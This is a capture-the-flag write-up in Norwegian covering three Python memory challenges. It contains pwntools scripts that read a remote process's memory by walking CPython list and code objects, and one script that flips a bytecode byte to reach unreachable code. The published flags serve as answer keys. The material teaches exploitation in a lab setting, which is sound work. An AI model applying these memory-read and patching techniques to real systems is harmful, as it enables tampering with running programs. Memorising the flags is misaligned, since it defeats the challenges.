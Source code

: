 ## PYMEM WARMUP

### Oppgave

Oppgaven er å hente ut flagget lagret i minnet ved hjelp av et pythonscript som lar deg lese minneadressene.

```
Welcome to a series of forensics challenges to understand memory layout of a running python process
pymem warmup: Let's get you warmed up!
id=0x7f2f75953440
read from memory address:
```

### Løsning

Min løsningen var å automatisere minneavlesningen med pwntools ved å starte med første addresse og be om å få lese hver 8. addresse. Til slutt dekoder jeg strengen til ascii-tegn.

```py
from pwn import *

# Connect to the remote service
io = remote('pymemwarmup.ept.gg', 1337, ssl=True)

io.recvuntil(b"=")
startAddr = int(bytes.decode(io.recvuntil(b"\n", drop=True)), 16)

result = b""
for i in range(50):
    # Send address
    addr = hex(startAddr + i*8)
    io.sendlineafter(b":", addr)

    # Read data and concat
    io.recvuntil(b": ")
    result += io.recvuntil(b"\n", drop=True)
    
# Decode bytestring
print(bytes.fromhex(bytes.decode(result)))

# Close the connection
io.close()
```

Resultatet fra koden over gir flagget i klartekst gjemt i minnedumpen:

```
b"\x01\x00\x00\x00\x00\x00\x00\x00\x80\xf1o#\xb1U\x00\x00J\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xffflag{xxx}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc0\xb7o#\xb1U\x00\x002\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\xe4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00unclosed file <_io.BufferedReader name='flag.txt'>\x00\x01\x10\x03\x10\x01\x08\x02\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\xc0\xb7o#\xb1U\x00\x00:\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\xe4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00All callers to this function MUST hold self._waitpid_lock.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xa0\xbbo#\xb1U\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00p\x00\xfe1\x12\x7f\x00\x00pp\xe81\x12\x7f\x00\x00\xb0\xdb\x182\x12\x7f\x00\x00"
```

<details>
  <summary>Flagg</summary>
  
  `flag{did_you_do_a_simple_memorydump?_tha7_will_not_work_on_the_next_chal!}`
</details>



## PYMEM POINTERS

### Oppgave

Oppgaven er å hente ut flagget lagret i en 2d-liste i python. Lister i python lagres som et array av pointers, derav navnet på oppgaven.

```
pymem pointers: brute-force will not work here, read pointers like CPython!
id=0x7fc61e1d0800
read from memory address:
```

### Løsning

Som vi kan se i [kildekoden](https://github.com/python/cpython/blob/5c22476c01622f11b7745ee693f8b296a9d6a761/Include/listobject.h#L22) til CPython lagres lister som et objekt med denne strukturen (forenklet):

```
   # PyListObject       # ob_item (array of pointers to other objects):
+------------------+                    +----------+
| ob_refcnt  num   |                    | 0x111111 |
+------------------+                    +----------+
| ob_type   type*  |           / - - -> | 0x222222 |
+------------------+          /         +----------+
| ob_size    num   |         /          | 0x333333 |
+------------------+        /           +----------+
| ob_item    ptr*  | - - - /
+------------------+
| allocated  num   |
+------------------+
```

Lista vi skal finne er i to dimensjoner. Vi går gjennom `ob_item` til den ytterste lista for å gå igjennom alle underlistene. Vi gjentar prosessen for underlistene, men denne gangen vet vi at det kun ligger én pointer i `ob_item`. I dette feltet finner vi en tallverdi som også står oppført i [kildekoden](https://github.com/python/cpython/blob/5c22476c01622f11b7745ee693f8b296a9d6a761/Include/longobject.h) til CPython (forenklet):

```
+-------------------+
| ob_refcnt:   num  | 
+-------------------+
| ob_type:    type* |
+-------------------+
| ob_size      num  |
+-------------------+
| ob_digit[0]  num  |
+-------------------+
```

Koden bruker pwntools for å iterere over den ytterste listen og leter gjennom hierarkiet for hver bokstav i flagget. For å lese minneadressene riktig må adressene i oppgaven konverteres fra **big-endian** til **little-endian**. Det skjer i `read_addr`-funksjonen.


```py
from pwn import *

# Read memory address
def read_addr(addr):
    io.sendlineafter(b":", addr)
    # Read data and concat
    io.recvuntil(b": ")
    value = bytes.fromhex(io.recvuntil(b"\n", drop=True).decode('utf-8'))[::-1].hex()
    return value

# Connect to the remote service
io = remote('pymempointers.ept.gg', 1337, ssl=True)

# Read flag object id
io.recvuntil(b"=")
f_list = int(bytes.decode(io.recvuntil(b"\n", drop=True)), 16)

f_ptr = read_addr( hex(    f_list   + 3*8) ) # First list of pointers

flag = ""
flag_length = read_addr( hex(f_list + 2*8) )
for i in range(int(flag_length, 16)):
    s_list    = read_addr( hex(int(f_ptr, 16)     + i*8) ) # Second list
    s_ptr     = read_addr( hex(int(s_list, 16)    + 3*8) ) # Second list of pointers
    long_elmt = read_addr( hex(int(s_ptr, 16)          ) ) # Long element
    number    = read_addr( hex(int(long_elmt, 16) + 3*8) ) # Number as hex
    flag += chr(int(number,16)) # Convert to character and append to flag

print(flag)

# Close the connection
io.close()
```

<details>
  <summary>Flagg</summary>
  
  `flag{PyTypeObject_in_CPython's_sourcecode_had_all_what_you_needed!}`
</details>



## PYPWN ONEBYTE

### Oppgave

Oppgaven er å endre en byte i stacken til et pythonprogram for å flippe en ifstatement så den blir sann. Formatet på terminalen er likt som før:

```
pypwn onebyte: you are allowed to write just one byte, can we reach the unreachable code?
id=0x7fe98ba43370
read from memory address:
```

### Løsning

Vi bruker det vi lærte fra tidligere oppgaver, men denne gangen er det `PyFunctionObject` vi er interessert i. Denne peker til et eget element `PyCodeObject`. Den inneholder informasjon som konstanter, variabler og strings i funksjonen. Elementet vi er interessert i er `instruction opcodes` også kalt `co_code`.

co_code gir oss en liste over nøyaktig hva pythonfunksjonen foretar seg. Her er et utsnitt fra noen av addressene:
```
0x00007fe98bb05430: 64017d007c006402
0x00007fe98bb05438: 6b02721774006403
0x00007fe98bb05440: 8301010074007401
0x00007fe98bb05448: 640464058302a002
```

instruksjonene leses i en og en byte og kodene betyr forskjellige ting. Noen av de jeg trengte å forså for å løse denne oppgaven var:

1. `64` : LOAD_CONST
1. `7D` : STORE_FAST
1. `83` : COMPARE_OP

Spør vi ChatGPT om å ta en titt kan den bryte opp alle instruksjonene i en lettfatta liste:

```
64017d007c006402
6b02721774006403
8301010074007401

LOAD_CONST 1: Load constant False onto the stack.
STORE_FAST 0: Store the value (False) in local variable x.
LOAD_FAST 0: Load the value of local variable x onto the stack.
LOAD_CONST 2: Load constant True onto the stack.
COMPARE_OP 2: Compare the top two elements on the stack for equality (==).
...
```

Nå som jeg forstår hva koden gjør ønsker jeg å gjøre slik at True kan lases for sammenlikning stedenfor False. Det gjør jeg ved å bytte ut **64 01** (`LOAD_CONST FALSE*`) med **64 02** (`LOAD_CONST TRUE*`)

Koden i under dumper alt du trenger å analysere i terminalen, så trenger du bare å analysere og bytte ut riktig byte manuelt.

NB: Hvis oppgaven skal debugges lokalt er det viktig å bruke linux ettersom addressene på windows ser noe annerledes ut (mner tungvint etter min erfaring)

```py
from pwn import *

# Read memory address
def read_addr(addr):
    io.sendlineafter(b":", addr)
    # Read data and concat
    io.recvuntil(b": ")
    value = bytes.fromhex(io.recvuntil(b"\n", drop=True).decode('utf-8'))[::-1].hex()
    return value

# Connect to the remote service
io = remote('pypwnonebyte.ept.gg', 1337, ssl=True)

# Read flag object id
io.recvuntil(b"=")
PyFunctionObject = bytes.decode(io.recvuntil(b"\n", drop=True))
print("PyFunctionObject:", PyFunctionObject)

PyCodeObject = read_addr( hex(int(PyFunctionObject, 16) + 6*8) )
print("PyCodeObject:", PyCodeObject)
    
co_code = read_addr( hex(int(PyCodeObject, 16) + 6*8) )
print("co_code :", co_code)

for i in range(4, 8):
    print(read_addr( hex(int(co_code, 16) + i*8) ))

io.interactive() # Use interactive mode to do the final step of analyzing and changing the right bit.

# Close the connection
io.close()
```

<details>
  <summary>Flagg</summary>
  
  `flag{aLl_w3_neEDed_wAs_a_co_code_fl1p!}`
</details>